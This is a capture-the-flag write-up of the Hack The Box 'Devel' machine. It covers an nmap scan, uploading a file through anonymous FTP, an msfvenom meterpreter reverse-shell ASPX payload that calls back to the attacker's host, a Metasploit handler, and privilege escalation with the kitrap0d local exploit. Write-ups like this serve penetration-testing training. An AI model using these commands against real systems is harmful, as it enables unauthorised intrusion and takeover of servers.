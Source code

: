 ```yaml
---
title: "Devel - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Devel
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Devel
![](https://kar0nx.github.io/assets/images/writeup/0fb6455a29eb4f2682f04a780ce26cb1.webp)

## Reconnaissance

IP: 10.10.10.5
### NMAP

```
nmap -T4 -p- -A 10.10.10.5
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 08:09 EST
Nmap scan report for 10.10.10.5
Host is up (0.031s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
| 02-17-25  06:48PM       <DIR>          MEIIQMEUQS
| 02-18-25  07:43PM               907553 venom.aspx
| 02-18-25  07:51PM               907558 venom_1.aspx
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose|phone
Running (JUST GUESSING): Microsoft Windows 7|8|Phone|2008|8.1|Vista (90%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Embedded Standard 7 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (87%), Microsoft Windows 7 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.81 ms 10.10.14.1
2   31.13 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.85 seconds

```

Nmap shows that port 21 ftp is open and allow anonymous login to service, also port 80 http is open and using Microsoft iis httpd 7.5

## Website

Nothing special on site.
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219141352.png)

## FTP

```
ftp 10.10.10.5
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219141628.png)
I log in as anonymous and check that can i put file on server. Vio La it is possible, so lets make payload using MSFVenom
## Gaining Access

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.43 LPORT=1234 -f aspx >reverse.aspx
```

next use metasploit and navigate to exploit/multi/handler

```
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1234
```

open file on server by typing url
```
http://10.10.10.5/reverse.aspx
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219150634.png)

we have shell
## Privilege Escalation

Let’s do some enumeration using sysinfo command.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219150723.png)

We will run the post-exploit module from Metasploit suggester

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219150954.png)

Set everything and run.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219151237.png)

Suggester found few exploits. This machine is vulnerable to Kitrap0d so use 4

```
use exploit/windows/local/ms10_015_kitrap0d

set lhost tun0

set session 1

set lport 1337

run
```

We are in, we can check it using getuid

![](https://kar0nx.github.io/assets/images/writeup/1_jfKdxGK9NgMTo9fHQQzXxA.webp)
Now we can capture flag.